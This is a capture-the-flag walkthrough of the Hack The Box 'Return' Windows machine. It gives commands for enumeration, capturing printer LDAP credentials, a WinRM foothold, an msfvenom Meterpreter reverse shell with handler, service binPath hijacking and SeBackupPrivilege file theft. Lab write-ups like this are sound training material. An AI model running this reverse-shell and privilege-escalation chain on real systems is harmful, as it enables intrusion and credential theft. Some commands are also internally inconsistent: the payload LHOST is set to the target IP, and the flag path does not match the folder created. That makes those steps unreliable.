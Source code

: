 # Return HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Return-green?logo=hackthebox)](https://app.hackthebox.com/machines/401)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/subhash00/HTB_Labs/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/subhash00/HTB_Labs/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

**Return** is an easy-level Windows machine on Hack The Box focused on exploiting network printer misconfigurations and abusing Windows privilege escalation techniques. The box demonstrates enumeration of Windows shares and services, credential capture via a network printer, WinRM initial foothold, privilege escalation using the Server Operators group, and finally leveraging SeBackupPrivilege to access the Administrator's desktop.

---

## Table of Contents

- [Scan and Enumeration](#scan-and-enumeration)
- [SMB and Service Discovery](#smb-and-service-discovery)
- [Abusing Printer Panel and Capturing Credentials](#abusing-printer-panel-and-capturing-credentials)
- [Initial Foothold via WinRM](#initial-foothold-via-winrm)
- [Privilege Escalation](#privilege-escalation)
- [Post Exploitation and Flag Capture](#post-exploitation-and-flag-capture)
- [Stepwise PoC](stepwise-poc)
- [Tools Used](#tools-used)
- [Technical Notes](#technical-notes)

---

## Scan and Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.241 | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.129.95.241
```
- Scans all TCP ports, extracts open ports, and performs banner and script scanning on the detected ports.

---

## SMB and Service Discovery

```
enum4linux-ng -A 10.129.95.241
smbclient -L //10.129.95.241/
```
- Enumerates users, shares, domains, and more.
- Lists all available SMB shares.

---

## Abusing Printer Panel and Capturing Credentials

`nc -lvnp 389`
- Listens for LDAP connections, capturing cleartext credentials when configured in the Printer Admin Panel.

*Captured Credential:*
```
Username: svc-printer
Password: 1edFg43012!!
```

---

## Initial Foothold via WinRM

`evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'`
- Authenticates and spawns a WinRM shell as the captured domain user.

`net user svc-printer`
- Checks group memberships and privileges of the obtained account.

`services`
- Lists running services.

---

## Privilege Escalation

*Generate and transfer Meterpreter payload:*
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.129.95.241 LPORT=1447 -f exe > shell.exe
upload shell.exe
```

*Start Metasploit Handler:*
```

*Start Metasploit Handler:*

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.48
set LPORT 1447
run
```

*Abuse Service to Execute Payload:*
```
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\shell.exe"
sc.exe stop VMTools
sc.exe start VMTools
```

- Modifies the VMTools service to run the shell and triggers Meterpreter.
- If session is unstable, re-run or try different services.

---

## Post Exploitation and Flag Capture

*Check Available Privileges:*
`whoami /priv`

*Abuse SeBackupPrivilege to Access Administrator Files:*
```
mkdir C:\temp\creds
robocopy /b C:\Users\Administrator\Desktop C:\temp\creds
cat C:\creds\root.txt
```
- Leverages backup privileges to copy inaccessible files and finally retrieves the root flag.

---

## Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1513" height="847" alt="19" src="https://github.com/user-attachments/assets/fdda1804-15a1-4050-8963-0c08deba4fcd" />
<img width="1054" height="320" alt="18" src="https://github.com/user-attachments/assets/a7373ea4-355d-4286-bf15-dc2909d198aa" />
<img width="685" height="810" alt="17" src="https://github.com/user-attachments/assets/833cb303-babc-4e7e-9aba-094a4b027f60" />
<img width="765" height="841" alt="16" src="https://github.com/user-attachments/assets/03b4451b-0878-4acf-83ec-94be7e246f70" />
<img width="1197" height="656" alt="15" src="https://github.com/user-attachments/assets/de284b53-1ab5-4fb6-8703-ada562045f81" />
<img width="764" height="123" alt="14" src="https://github.com/user-attachments/assets/87ff5172-6424-41db-b22f-eded61b77567" />
<img width="1189" height="606" alt="13" src="https://github.com/user-attachments/assets/cbf57109-09d2-4b23-9d0e-6904e6e01643" />
<img width="817" height="203" alt="12" src="https://github.com/user-attachments/assets/b452b7a1-d761-496a-aff4-e3bef5496b95" />
<img width="863" height="249" alt="11" src="https://github.com/user-attachments/assets/2f12183c-4339-4ae9-a3fa-a20f4304d712" />
<img width="895" height="793" alt="10" src="https://github.com/user-attachments/assets/633effd2-6b5a-44e8-a7f2-26bdd6b2e1b2" />
<img width="1743" height="466" alt="9" src="https://github.com/user-attachments/assets/10bb85f3-4005-4d9e-aadb-044381af6ebe" />
<img width="961" height="282" alt="8" src="https://github.com/user-attachments/assets/5ce92af7-e915-449f-b075-26cdf7a5429e" />
<img width="862" height="268" alt="7" src="https://github.com/user-attachments/assets/2a0147e9-215d-40e5-8529-0aca42092e2c" />
<img width="1455" height="74" alt="6" src="https://github.com/user-attachments/assets/2386d468-ecf6-439f-a3ac-c63f0e18c956" />
<img width="828" height="291" alt="5" src="https://github.com/user-attachments/assets/ed540559-df53-4b82-b52e-75d02ae32e15" />
<img width="894" height="549" alt="4" src="https://github.com/user-attachments/assets/acbdbd9f-bd1a-44a4-a57e-882873ea1fba" />
<img width="828" height="299" alt="3" src="https://github.com/user-attachments/assets/06ff13d4-6c46-41e4-9c60-fc1ed00bae5d" />
<img width="1245" height="669" alt="2" src="https://github.com/user-attachments/assets/53d8366a-ef25-4cde-90fb-642dacd94d1f" />
<img width="908" height="77" alt="1" src="https://github.com/user-attachments/assets/bf489527-8021-4ede-ab26-01028dadcf8f" />

</details>

---

## Tools Used

- **nmap** – Port scanning and service detection
- **enum4linux-ng** – Windows and Samba enumeration
- **smbclient** – SMB share listing
- **nc (netcat)** – Listener for credentials
- **evil-winrm** – WinRM shell for Windows boxes
- **msfvenom/msfconsole** – Metasploit payload creation and handler
- **robocopy** – Copying as backup operator
- **sc.exe** – Windows Service Controller utility

---

## Technical Notes

- **Server Operators Group**: Members can control and reconfigure system services, often leading to privilege escalation if misconfigured.
- **SeBackupPrivilege**: Allows reading almost any file on the system by using tools like robocopy with the `/b` (backup) flag.
- **Service Abuse**: Overwriting the binPath of an enabled service lets you trigger arbitrary code as SYSTEM.

---
